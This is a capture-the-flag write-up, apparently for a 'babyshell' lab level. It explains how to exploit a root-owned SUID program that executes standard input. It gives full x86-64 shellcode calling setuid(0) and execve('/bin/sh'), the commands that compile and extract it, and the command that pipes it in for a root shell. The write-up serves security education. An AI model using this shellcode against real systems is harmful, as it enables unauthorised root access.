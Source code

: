 ## Level 1

List the file in the current directory. There is a SUID program called `babyshell_level1_teaching1` and its owner is root. So we can exploit it to leak the contents of flag. 

[babyshell-1]

According to the hint: the standard input will be read into memory at 0x17011000 and executed. So our goal is to write a shellcode and send it as a standard input. 

[babyshell-2]

[babyshell-3]

Write the shellcode program in `/tmp` directory. The program aims to invoke setuid(0) and execve("/bin/sh").

```assembly
.global _start

_start: 
.intel_syntax noprefix
	mov rax, 0x69		; setuid 
	mov rdi, 0
	syscall 
	
	mov rax, 0x3b 		; execve
	lea rdi, [rip+filename]
	mov rsi, 0
	mov rdx, 0
	syscall 

filename:
	.string "/bin/sh"
```

Compile it as a binary file and use objcopy command to extract the raw shellcode. 

```
$ gcc -nostdlib -static shellcode.s -o shellcode
$ objcopy --dump-section .text=shellcode-raw shellcode
```

So we can get the flag. 

```
$ (cat ./tmp/shellcode-raw; cat) | ./babyshell_level1_teaching1
```

[babyshell-4]